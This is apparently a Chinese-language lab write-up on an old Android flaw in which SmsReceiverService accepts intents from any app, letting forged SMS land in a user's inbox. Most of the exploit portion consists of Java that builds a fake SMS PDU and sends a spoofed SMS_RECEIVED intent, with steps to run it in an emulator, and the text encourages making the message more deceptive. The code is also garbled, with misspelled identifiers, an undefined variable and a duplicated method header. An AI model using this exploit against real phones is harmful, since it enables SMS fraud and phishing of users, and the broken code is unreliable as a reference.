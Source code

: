 ```yaml
---
title: Android安全之短信欺诈漏洞
date: 2021-12-27 19:46:16
tags: 
- Android
- 短信
- 欺诈
---
```


目的：
* 通过JAVA编程理解Android手机安全漏洞的基本原理
* 用JAVA编写伪造短信代码，向系统收件箱发送伪造短信

原理：
* 漏洞原理介绍
* 该系统漏洞能够使攻击者无需申请任何权限发送短信到用户收件箱。 出现该漏洞的原因是Android系统的com.android.mms.transaction。
* SmsReceiverService系统服务未判断启动服务的调用者，攻击者可以通过该应用发送伪装短信到用户收件箱。本漏洞实质上是一种能力的泄漏。
* 漏洞发送的短信并不经过GSM网络,所以即使手机没有插sim卡,也照样可以收到短信,这让大部分的短信防火墙完全失效。

过程：

打开eclipse，点击file-import，选择android目录下的existing android code into workspace![image-20211229100046569](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100046569.png)

选择simpleedu28项目![image-20211229100118574](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100118574.png)

导入后的项目![image-20211229100200697](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100200697.png)

在工程目录res/layout的界面代码，这里可以通过控制代码，编辑相应的函数生成欺诈短信，点击activity_main.xml，可以看到界面布局的文件![image-20211229100257165](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100257165.png)

在mainactivity中添加运行欺诈短信的代码，点开`msgdemo2\src\com.example.msgdemol\mainactivity.java`![image-20211229100406295](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100406295.png)

在mainactivity的init()函数添加如下代码，为button设置监听事件

```java
//为发送按钮设置监听
sendBt.setOnClickListener(new OnClickListener(){
       @Override
       public void onClick(View v){
                       /*
                 *获取输入的伪造号码和内
                 *判断输入是否合法
*/
String num=msgNumTv.getText().toString();
String con=msgConTv.getText().toString();
If(num.length()<1||con.length()<1)
{ Toast.makeText(MainActivity.this,”电话号码或者内容没有输入”,Toast.LENGTH_SHORT).show();
return;}
//判断通过伪造短信
//make Msg(MainActivity.this,num,con);
createFakeMsg(MainActivity.this,num,con);}
});
```

在MainActivity的init()函数,跳转到init函数位置添加上一步的代码

![image-20211229101856123](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229101856123.png)createFakeMsg的具体代码

```java
/**
 *伪造短信
* @param context
@param num
* @param con
 */
          Private static void createFakeMsg(Context context,String num,String con){
                byte[] pdu=null;
                byte[] scBytes=PhoneNumberUtils.networkPortionToCalledPartyBCD(num);
                int lsmcs=scBytes.length;
                byte[] dateBytes=new byte[7];
                Calendar calendar=new GregorianCalendar();
                dateBytes[0]=reverseByte((byte)(calendar.get(Caledar.YEAR)));
                dateBytes[1]=reverseByte((byte)(calendar.get(Caledar.MONTH)+1));
                dateBytes[2]=reverseByte((byte)(calendar.get(Caledar.DAY_OF_MONTH)));
                dateBytes[3]=reverseByte((byte)(calendar.get(Caledar.HOUR_OF_DAY)));
                dateBytes[4]=reverseByte((byte)(calendar.get(Caledar.MINUTE)));
                dateBytes[5]=reverseByte((byte)(calendar.get(Caledar.SECOND)));
                dateBytes[6]=reverseByte((byte)(（calendar.get(Caledar.ZONE_OFFSET)+calendar.get(Calendar.DST_OFFSET))/(60*1000*15)）);
                try{
          // Log.d(LOG,”test one”);
                 ByteArrayOutputStream bo=new ByteArrayOutputStream();
                 bo.write(lsmcs);
                 bo.write(scBytes);
                 bo.write(0x04);
                 bo.write((byte)num.length());
                 bo.write(senderBytes);
                 bo.write(0x00);
                 bo.write(0x00);//encoding:0 for default 7bit
                 bo.write(dateBytes);
                 try{
          String sReflectedClassName=”com.android.internal.telephony.GsmAlphabet”;
          Class cRefectedNFCExtras=Class.forName(sReflectedClassName);
          Method stringToGsm7BitPacketd=cReflectedNFCExtras.getMethod(“stringToGsm7BitPacketd”,new Clas[]{String.class});
          stringToGsm7BitPacked.setAccessible(true);
          byte[] conbytes=(byte[]) stringToGsm7BitPacked.invoke(null,con);
          bo.write(conbytes);
          }catch(Exception e){e.printStackTrace();}
          pdu=bo.toByteArray();}
          catch(IOException e){e.printStackTrace();}
          Intent intent=newIntent();
          Intent.setClassName（“com.android.mms.transaction.SmsReceiverService”）;
          Intent.setAction(“android.provider.Telephony.SMS_RECEIVED”);
          Intent.putExtra(“pdus”,new Object[]{pdu});
          //intent.putExtra(“format”,”3gpp”);
          Context.startService(intent);}
          Private static byte reverseByte(byte b){
          private static byte reverseByte(byte b){
          return (byte)((b&0xf0)>>4|(b&0x0f)<<4);}
```

在已经设计好的欺诈短信发送界面，有两部分内容：伪造号码与伪造内容。这里的伪造号码，这是发件人的号码，因为是发给自己，所以没有收件人号码，。至于内容可以随意填写内容，使短信更具欺诈性。

AVD中打开虚拟机Simpleedu28虚拟安卓![image-20211229102354469](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102354469.png)

右键MSGDEMO2，选择run as-android application按钮![image-20211229102712162](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102712162.png)

虚拟端返回运行后结果![image-20211229102740838](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102740838.png)

点击发送，手机接收欺诈短信

![image-20211229102848974](https://gitee.com/oxchang/img-host/raw/master/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102848974.png)

